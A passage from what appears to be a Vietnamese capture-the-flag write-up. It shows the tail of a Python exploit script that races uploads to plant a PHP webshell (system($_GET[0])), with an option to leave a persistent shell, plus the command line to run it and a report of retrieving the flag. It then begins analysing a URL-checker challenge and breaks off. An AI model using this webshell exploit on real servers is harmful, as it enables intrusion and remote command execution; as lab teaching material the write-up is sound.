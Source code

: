 ```py
    ap.add_argument("--upload-interval", type=float, default=0.0, help="Sleep seconds between uploads (default: 0)")
    ap.add_argument("--field-name", default="file", help="Form field name for upload (default: file)")
    ap.add_argument("--persist", action="store_true", help="After first HIT, drop persistent /uploads/p.php")
    ap.add_argument("--timeout", type=float, default=0.8, help="HTTP timeout seconds")
    ap.add_argument("--php", default=WEB_SHELL, help="PHP webshell content (default: system($_GET[0]))")
    ap.add_argument("--no-show-response", dest="show_response", action="store_false", help="Do not print full response body on success")
    args = ap.parse_args()
    config = Config(
        base=args.base,
        upload=args.upload,
        tmp=args.tmp,
        cmd=args.cmd,
        threads=args.threads,
        upload_interval=args.upload_interval,
        field_name=args.field_name,
        persist=args.persist,
        timeout=args.timeout,
        php=args.php,
        pool_size=max(64, args.threads * 2),
        show_response=args.show_response,
    )
    return config
def main():
    config = parse_args()
    runner = Exploit(config)
    runner.run()
if __name__ == "__main__":
    main()
```
Run Python Với Lệnh Sau: <br>
```note
python3 <filename>.py --base http://<HOST>:<PORT> --upload /upload.php --tmp /tmp --cmd "<command-your>" --threads 300 --upload-interval 0.0 --persist
```
Và đã thành công ghi webshell và thực thi lệnh: <br>
<img width="1882" height="398" alt="image" src="https://github.com/user-attachments/assets/2ad246b3-702d-4f4d-b84f-6b16e6912392" /> <br>
Tiếp theo cùng sử dụng lệnh **ls /** để kiểm tra flag có file ngẫu nhiên: <br>
<img width="1897" height="859" alt="image" src="https://github.com/user-attachments/assets/f5493f72-e351-4ead-b985-3078dc815bcf" /> <br>
Get FLAG thành công như hình bên dưới: <br>
<img width="1903" height="361" alt="image" src="https://github.com/user-attachments/assets/5b35b095-3b1e-4ca1-94af-da73d95b0495" />

## Phân Tích Challenge (Web-URL-Checker)
Đầu tiên vào challenge trang web thì web sẽ hiển thị cho chúng ta một link nhập URL thì ta thử nhập một đường dẫn như http://google.com và trả về trạng thái status 405 như hình bên dưới : <br>
<img width="942" height="377" alt="image" src="https://github.com/user-attachments/assets/c8690f86-ddd1-4f81-9c20-a17859dca3cb" /> <br>
Và đầu tiên mình sẽ xem thử flag nằm ở đâu thì trong entrypoint.sh có wp option add chèn một hàng vào bảng wp_options (tiền tố bảng ở script là wp_), nên nội dung ctf_flag nằm ở wp_options.option_value: <br>
```note
  wp option add ctf_flag 'cybercon{REDACTED}' --allow-root || true
```
Rồi bây giờ xem thử mã nguồn **index.php** Ở đây nó lấy 2 tham số u và b và kiểm tra User-Agent không phải số 42 thì in ra dòng **Do you now...** sau đó nó khởi nó dùng regex để kiểm tra đầu vào http và https sau đó nó cấu hình thực hiện request bằng Curl sau đó hiển thị trạng thái kết quả chúng ta bằng status của http chứ không in ra nội dung: <br>
```php
```
